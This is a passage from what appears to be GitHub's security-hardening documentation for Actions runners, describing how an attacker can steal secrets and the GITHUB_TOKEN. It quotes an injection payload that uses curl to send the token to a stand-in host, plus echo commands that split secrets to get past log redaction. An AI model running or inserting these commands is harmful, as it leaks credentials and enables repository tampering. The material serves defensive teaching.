 Scorecards is an automated security tool that flags risky supply chain practices. You can use the Scorecards action and workflow template to follow best security practices. Once configured, the Scorecards action runs automatically on repository changes, and alerts developers about risky supply chain practices using the built-in code scanning experience. The Scorecards project runs a number of checks, including script injection attacks, token permissions, and pinned actions.
Potential impact of a compromised runner

These sections consider some of the steps an attacker can take if they're able to run malicious commands on a GitHub Actions runner.

Note

GitHub-hosted runners do not scan for malicious code downloaded by a user during their job, such as a compromised third party library.
Accessing secrets

Workflows triggered from a forked repository using the pull_request event have read-only permissions and have no access to secrets. However, these permissions differ for various event triggers such as issue_comment, issues, push and pull_request from a branch within the repository, where the attacker could attempt to steal repository secrets or use the write permission of the job's GITHUB_TOKEN.

    If the secret or token is set to an environment variable, it can be directly accessed through the environment using printenv.

    If the secret is used directly in an expression, the generated shell script is stored on-disk and is accessible.

    For a custom action, the risk can vary depending on how a program is using the secret it obtained from the argument:

    uses: fakeaction/publish@v3
    with:
        key: ${{ secrets.PUBLISH_KEY }}

Although GitHub Actions scrubs secrets from memory that are not referenced in the workflow (or an included action), the GITHUB_TOKEN and any referenced secrets can be harvested by a determined attacker.
Exfiltrating data from a runner

An attacker can exfiltrate any stolen secrets or other data from the runner. To help prevent accidental secret disclosure, GitHub Actions automatically redact secrets printed to the log, but this is not a true security boundary because secrets can be intentionally sent to the log. For example, obfuscated secrets can be exfiltrated using echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};. In addition, since the attacker may run arbitrary commands, they could use HTTP requests to send secrets or other repository data to an external server.
Stealing the job's GITHUB_TOKEN

It is possible for an attacker to steal a job's GITHUB_TOKEN. The GitHub Actions runner automatically receives a generated GITHUB_TOKEN with permissions that are limited to just the repository that contains the workflow, and the token expires after the job has completed. Once expired, the token is no longer useful to an attacker. To work around this limitation, they can automate the attack and perform it in fractions of a second by calling an attacker-controlled server with the token, for example: a"; set +e; curl http://example.com?token=$GITHUB_TOKEN;#.
Modifying the contents of a repository

The attacker server can use the GitHub API to modify repository content, including releases, if the assigned permissions of GITHUB_TOKEN are not restricted.
Considering cross-repository access
